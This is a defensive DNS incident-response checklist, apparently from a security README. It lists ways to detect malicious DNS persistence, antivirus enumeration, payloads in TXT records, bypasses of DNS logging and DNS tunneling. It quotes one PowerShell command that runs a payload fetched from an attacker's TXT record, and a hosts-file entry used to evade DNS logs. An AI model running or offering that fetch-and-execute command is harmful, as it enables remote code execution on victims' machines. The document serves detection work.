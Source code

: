 # DNS_Incident_Response


1.Persistent Malicious DNS Query Detection:

Persistent Malicious DNS Query Detection
Sometimes, malware establish a persistent DNS query mechanism in
the victim computer. In such cases, you may notice in the Linux
victim system that the systemd-resolved or, the systemdresolved.service service is sending DNS queries to the malicious
domain on startup/reboot. This service is persistent as it’s started by
the ‘/sbin/init’ process (in case of Ubuntu) and provides resolver
services for Domain Name System (details).
Preferred Action: You can first confirm the DNS queries by logging
the network activities using my tool NetDahar or, checking the
systemd-resolved cache from the journalctl log by using the below
commands (first store the logs into the dns_log.txt file and then
search the systemd-resolved logs in the file):
pkill -USR1 systemd-resolve
journalctl -u systemd-resolved > dns_log.txt





2.Antivirus Enumeration Detection

Threat actors send non-recursive DNS queries to their target
organization’s DNS server (after gaining access to the network) for
different antivirus’ domains. If the DNS query for any of the anti virus
domains gets a successful DNS response, this indicates that the
specific anti virus is installed in the organization. Because, attacker
sent non-recursive DNS query, which means- the DNS server will
only send successful response if the DNS record is already stored in
the DNS server's cache. And the DNS server usually caches the DNS
record of the currently used antivirus’ domain (as it's often queried
by the antivirus for updates) thus, threat actor got the info.
Preferred Action: You can analyze the DNS query logs to check if
there are DNS queries for so many antivirus domains in a certain
period of time.





3.Payload in DNS TXT Record Detection

When threat actors try to use PowerShell commands such as IEX or,
Invoke-WebRequest then, EDR or security solutions block this. To
bypass this, they can host a DNS TXT record with malicious payload
in their C2 domain and then run the below command to execute the
payload (details):
powershell . (nslookup -q=txt http://some.owned.domain.com)[-1]
Preferred Action: You should manually analyze the DNS query logs to
find such queries for TXT records. For example, below is a sample
log for TXT records query that I generated using ChatGPT:
08-Jun-2023 14:30:47.000 queries: info: client 10.0.0.5#54321 (google.com): query: google.com IN TXT +
08-Jun-2023 14:30:47.000 queries: info: client 10.0.0.5#54321 (google.com): response: google.com IN TXT "facebookdomain-verification=abcdefghijk" TTL 1800
08-Jun-2023 10:15:23.000 queries: info: client 192.168.1.100#12345 (example.com): response: example.com IN TXT
"v=spf1 include:_spf.example.com ~all" TTL 3600





4.DNS Log Bypass Detection

Threat actors may add their malicious domain and the IP address in
the hosts file (‘/etc/hosts’ in Linux) like below to temporarily bypass
the DNS and its logs:
65.181.121.56 malicious.com
Threat actors may even use ‘domain to IP’ services such as ip-api to
collect the IP address of their DGA or malicious domain rather than
querying the DNS server. So that, DNS can’t log their domain in the
query log.
Preferred Action: It’s really hard to detect such behavior if your
organization doesn’t have any DNS security solution such as
ThreatIDR. But, you can check for the existence of the DNS queries
for ‘domain to IP’ services in the log. Or, analyze the recent hosts file
modification during the incident response.





5.DNS Tunneling Detection

Threat actors often encodes/encapsulates the data of different
protocols or, programs in DNS query. This technique is called DNS
tunneling. This technique sometimes includes an another hacking
method- DGA (Domain Generation Algorithm). This enables threat
actors to exfiltrate data using DNS protocol.
Preferred Action: The domain name in a DNS request can have up to
253 characters in its textual representation. So, threat actors will
require so many DNS requests to exfiltrate data. As a result, the DNS
traffic will increase, which is a good indicator of DNS tunneling
attack. Also an incident responder should analyze the data inside the
network packets by capturing the live network. This will help to
detect the DNS tunneling attack by analyzing it manually.





*Final Summary*

DNS is the main entry point for all possible internet based cyber
threats. If the DNS is safe, almost all are safe. And when the DNS is
attacked by threat actors, victim organization requires an incident
response. I described some tasks as the initial checklist of DNS
incident response in this document. But, worth to mention, there are
many more DNS threats i.e. DNS cache poisoning, DNS server’s
vulnerability exploitation etc. which requires a perfect incident
response to detect the root cause and secure the environment from
all possible threats.
